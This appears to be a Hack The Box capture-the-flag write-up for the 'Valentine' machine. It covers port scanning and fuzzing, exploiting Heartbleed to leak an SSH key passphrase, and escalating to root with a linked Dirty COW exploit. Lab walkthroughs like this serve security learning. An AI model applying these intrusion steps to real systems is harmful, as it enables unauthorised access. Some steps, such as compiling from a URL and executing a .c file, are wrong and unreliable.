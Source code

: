 ```yaml
---
title: Valentine Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```



## Enumeration

```java
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 1024 964c51423cba2249204d3eec90ccfd0e (DSA)
| 2048 46bf1fcc924f1da042b3d216a8583133 (RSA)
|_ 256 e62b2519cb7e54cb0ab9ac1698c67da9 (ECDSA)
80/tcp open http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_ssl-date: 2023-02-04T16:57:58+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
|_Not valid before: 2018-02-06T00:45:25
|_Not valid after: 2019-02-06T00:45:25
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 1s
```

We see a subdomain named `valentine.htb`.

Applying a directory fuzzing, we find `/dev` which contains 2 files: `hype_key and notes.txt`. We will also apply a file fuzzing, for which we will find:
```shell
/index.php (Status: 200) [Size: 38] ```index.php (Status: 200) [Size: 38]
/index (Status: 200) [Size: 38]
/.html (Status: 403) [Size: 286]
/dev (Status: 301) [Size: 312] [--> http://valentine.htb/dev/]
/encode.php (Status: 200) [Size: 554]
/encode (Status: 200) [Size: 554]
/decode (Status: 200) [Size: 552]
/decode.php (Status: 200) [Size: 552]
/omg (Status: 200) [Size: 153356]
/.html (Status: 403) [Size: 286]
```


We see that the hype_key file has a code encoded in hexadecimal format. If we use it to decode it, we see that it is an RSA class that surely will serve us to connect through SSH. Now it is time to find out which user it is for. 

## User Exploit

Searching the internet, we see an nmap script called heartbleed, which is a critical vulnerability in the OpenSSL encryption library, used to protect sensitive information on many websites and servers. The vulnerability allows an attacker to read system memory, which can include sensitive information such as passwords, banking information, cryptographic keys and other private data.

To do this, we will download two fundamental nmap scripts:

```shell
wget https://nmap.org/nsedoc/scripts/ssl-heartbleed.html
wget https://svn.nmap.org/nmap/nselib/tls.lua
```

And finally we execute it:
```shell
nmap -sV -p 443 --script=ssl-heartbleed valentine.htb
```

And it reports the following:

```java
PORT STATE SERVICE VERSION
443/tcp open ssl/http Apache httpd 2.2.22
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-heartbleed: 
| VULNERABLE:
| The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
| State: VULNERABLE
| Risk factor: High
| OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
| References:
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
| http://www.openssl.org/news/secadv_20140407.txt 
|_ http://cvedetails.com/cve/2014-0160/
Service Info: Host: 10.10.10.136
```

We found the following exploit https://github.com/sensepost/heartbleed-poc, so let's run it.

When we do so, it returns a file called out.txt that if we run it enough times, it returns this: `$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` so let's decode it. We get `heartbleedbelievethehype`, which is the key to decode the hype_key obtained earlier, so let's connect via ssh
```shell
chmod 600 hype_key
ssh -i hype_key hype@10.129.223.47
# In case you get the following error: sign_and_send_pubkey: no mutual signature supported, run the following command:
ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i hype_key hype@10.129.223.47
```

And we will be able to see the user.txt flag

## Root Exploit

Doing a `uname -a` we see that we have a linux version 3.2.0, which is vulnerable to Kernel exploit. I am going to use one from firefart : https://github.com/FireFart/dirtycow/blob/master/dirty.c

To run it: 
* we go to /tmp inside the machine:
* create the file and save it
* compile it: `https://github.com/FireFart/dirtycow/blob/master/dirty.c`
* We execute it: `./exploit.c`.
* And now we can become the user firefart, which has root permissions: `your firefart`.
